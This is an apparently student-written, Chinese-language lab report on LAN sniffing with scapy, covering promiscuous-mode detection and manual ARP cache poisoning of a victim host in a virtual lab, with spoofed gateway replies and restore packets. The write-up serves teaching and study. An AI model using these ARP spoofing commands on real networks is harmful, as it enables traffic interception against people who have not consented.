









# 网络监听

## 实验环境

* 攻击者主机：kali
08:00:27:f3:69:a6 / eth0
172.16.111.128
* 受害者主机：kali
08:00:27:22:46:4f / eth0
172.16.111.124
* 网关：Debain
08:00:27:bf:1b:28 / enp0s9
172.16.111.1

## 实验准备

* 在攻击者主机上提前安装好 [scapy](https://scapy.net/) 

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy
```



## 实验: 检测局域网中的异常终端

* ```shell
    # 在受害者主机上检查网卡的「混杂模式」是否启用
    ip link show eth0
    # 2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    #     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

    # 在攻击者主机上开启 scapy
    sudo scapy

    # 在 scapy 的交互式终端输入以下代码回车执行 受害者主机 ip
    pkt = promiscping("172.16.111.124")

    # 回到受害者主机上开启网卡的『混杂模式』
    # 注意上述输出结果里应该没有出现 PROMISC 字符串
    # 手动开启该网卡的「混杂模式」
    sudo ip link set eth0 promisc on

    # 此时会发现输出结果里多出来了 PROMISC 
    ip link show eth0
    # 2: enp0s3: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    #     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

    # 回到攻击者主机上的 scapy 交互式终端继续执行命令
    # 观察两次命令的输出结果差异
    pkt = promiscping("172.16.111.124")

    # 在受害者主机上
    # 手动关闭该网卡的「混杂模式」
    sudo ip link set eth0 promisc off
    ```
* 结果展示
  * 由结果可知受害者主机未开启混杂模式时，攻击者使用 promiscping 进行发包探测，结果没有得到 arp 响应。当受害者主机开启了混杂模式后，攻击者使用 promiscping 进行发包探测，可以得到 arp 响应。
  * 
  * 
  * 
## 实验：手工单步“毒化”目标主机的 ARP 缓存

* ```shell
  # 获取当前局域网的网关 MAC 地址
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

    # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```
  *   

* ```shell
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)

  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
  * 

* ```shell
  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 172.16.111.124
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.124", hwdst="08:00:27:f3:69:a6")

  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```
  * 

*   ```shell
    # 伪装网关给受害者发送 ARP 响应
    restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:bf:1b:28", pdst="172.16.111.124", hwdst="08:00:27:22:46:4f")
    sendp(restorepkt1, count=100, inter=0.2)
    ```
    * 

* ```shell
  # 在受害者主机上准备“刷新”网关 ARP 记录
  # 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  # 静候几秒 ARP 缓存刷新成功，退出 ping
  # 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```
  *  

## 遇到的问题

* scapy 模块发送数据包时`Errno1 [operation not permitted]`
  * 提升权限 `sudo scapy` 

## 参考链接

[`kali`的基本工具之一--`wireshark`](https://www.jianshu.com/p/91e0f8bea7f7)

[`Scapy`中的`ARP`](https://stackoverflow.com/questions/50703738/what-is-the-meaning-of-the-scapy-arp-attributes)